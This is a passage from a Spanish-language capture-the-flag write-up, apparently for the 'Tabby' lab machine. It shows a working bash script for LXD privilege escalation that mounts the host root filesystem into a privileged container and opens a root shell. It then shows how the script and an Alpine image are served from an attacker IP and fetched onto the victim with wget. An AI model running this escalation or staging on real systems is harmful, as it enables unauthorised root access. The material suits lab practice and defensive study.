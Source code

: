```bash
function helpPanel(){
  echo -e "\nUsage:"
  echo -e "\t[-f] Filename (.tar.gz alpine file)"
  echo -e "\t[-h] Show this help panel\n"
  exit 1
}

function createContainer(){
  lxc image import $filename --alias alpine && lxd init --auto
  echo -e "[*] Listing images...\n"
  lxc init alpine privesc -c security.privileged=true
  lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
  lxc start privesc
  lxc exec privesc sh
  cleanup
}

function cleanup(){
  echo -en "\n[*] Removing container..."
  lxc stop privesc && lxc delete privesc && lxc image delete alpine
  echo " [√]"
}

set -o nounset
set -o errexit

declare -i parameter_enable=0; while getopts ":f:h:" arg; do
  case $arg in
    f) filename=$OPTARG && let parameter_enable+=1;;
    h) helpPanel;;
  esac
done

if [ $parameter_enable -ne 1 ]; then
  helpPanel
else
  createContainer
fi
```

- Nos transferimos tanto el script como el fichero `.tar.gz` a la maquina victima dentro del directorio `/dev/shm` debido a que dentro del directorio `/tmp` me daba problemas al ejecutarlo y no ganaba acceso a la maquina

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Descargamos los ficheros

```bash
ash@tabby:/dev/shm$ wget http://10.10.16.13:80/alpine-v3.20-x86_64-20240922_0946.tar.gz
--2024-09-22 13:01:22--  http://10.10.16.13/alpine-v3.20-x86_64-20240922_0946.tar.gz
Connecting to 10.10.16.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3817757 (3.6M) [application/gzip]
Saving to: ‘alpine-v3.20-x86_64-20240922_0946.tar.gz’

alpine-v3.20-x86_64-20240922_0946.tar.gz      100%[================================================================================================>]   3.64M  2.10MB/s    in 1.7s    

2024-09-22 13:01:24 (2.10 MB/s) - ‘alpine-v3.20-x86_64-20240922_0946.tar.gz’ saved [3817757/3817757]

```
